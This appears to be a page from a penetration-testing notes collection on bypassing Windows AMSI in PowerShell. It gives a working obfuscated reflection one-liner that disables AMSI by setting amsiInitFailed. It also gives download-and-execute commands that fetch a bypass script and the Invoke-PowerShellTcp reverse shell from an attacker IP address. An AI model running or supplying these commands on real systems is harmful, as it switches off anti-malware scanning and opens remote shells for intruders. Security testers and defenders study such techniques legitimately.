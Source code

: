 # AMSI Bypass

## Introduction

The Anti-Malware Scan Interface (AMSI) is a security feature of PowerShell that will allow any application or service to integrate with anti-malware products. AMSI will scan payloads and scripts prior to execution within the runtime. From Microsoft, "The Windows Anti-Malware Scanning Interface (AMSI) is a versatile interface standard that allows your applications and services to integrate with any anti-malware product that is present on a machine. AMSI provides enhanced malware protection for your end users and their data, applications and workloads."

## Theory

{% content-ref url="theory-amsi.md" %}
[theory-amsi.md](theory-amsi.md)
{% endcontent-ref %}

## Practice

### Verification

```powershell
$str = "amsiinitfailed"
$str
```

### Bypass methods

{% tabs %}
{% tab title="amsi.fail" %}
{% embed url="https://amsi.fail" %}

* The first thing we do is to generate a bypass method.
* Then, we can generate the chosen payload in encoded form.

![](../../../../.gitbook/assets/amsi\_fail\_use.png)

* We create a **.ps1** file and copy the content generated by [amsi.fail](http://amsi.fail). Then the payload will consist of the following:

{% hint style="danger" %}
We can also try running it directly in the PowerShell console.
{% endhint %}

```powershell
IEX(IWR -UseBasicParsing http://<IP>/amsibypass.ps1) # To bypass AMSI
IEX(New-Object Net.WebClient).DownloadString('http://10.10.0.26/Invoke-PowerShellTcp.ps1')
```
{% endtab %}

{% tab title="Payloads" %}
### Hexadecimal

```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```
{% endtab %}
{% endtabs %}
